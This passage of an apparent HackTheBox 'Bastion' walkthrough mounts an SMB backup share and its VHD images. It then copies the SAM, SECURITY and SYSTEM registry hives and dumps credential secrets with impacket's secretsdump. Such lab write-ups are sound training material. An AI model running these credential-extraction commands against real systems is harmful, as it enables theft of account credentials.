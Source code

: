 - Let's get the content. We can get everything in a row using this set of commands

```bash
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

- We have to abort this the note says:

```bash
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

- Big hint to investigate this backup folder
- Let's just have a look around for now
- [Here](https://jakebinstein.com/blog/taking-control-of-a-windowsimagebackup-folder/) is an article by Jake Binstein that is interesting to better understand the folder (Check out the Structure part in the end). That is a start.
- We have an info about the name of the pc and a potential user `L4mpje-PC`
- Looking further in the files we find vhd images. [Here](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25) is an article by Samuel Whang on how to mount this type of files

### vhd file

- Following Samuel Whang article, we first create a dir to mount the remote share `sudo mkdir /mnt/remote`
- `sudo mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw` we can mount it. It works  
![mounted share](../.res/2022-09-17-10-32-47.png)
- Note: I am going to sudo su for the rest of the process
- We navigate where we have the vhd files  
![vhd](../.res/2022-09-17-10-36-05.png)
- Let's create a mount point for the first vhd file `mkdir /mnt/vhd1`
- Let's now mount it with guestmount `guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd1 -v `
- Let's do the same last step for the 2nd vhd file 
- `mkdir /mnt/vhd2`
- `guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd2 -v`
- In my case it worked for the 2nd file only. I am going to inspect it and then trouble shot the 1st file in case (*note: I realized later that one is a boot partition and the other the disk so that is why one of the image is useless for us*)
- Let's copy the SAM, Security and system files in my working directory `cp SAM SECURITY SYSTEM ../../../../../home/kali/Documents/hackthebox/bastion`
- We can use secret dump on them and we get... secrets `python3 /opt/impacket/examples/secretsdump.py local -sam SAM -security SECURITY -system SYSTEM`  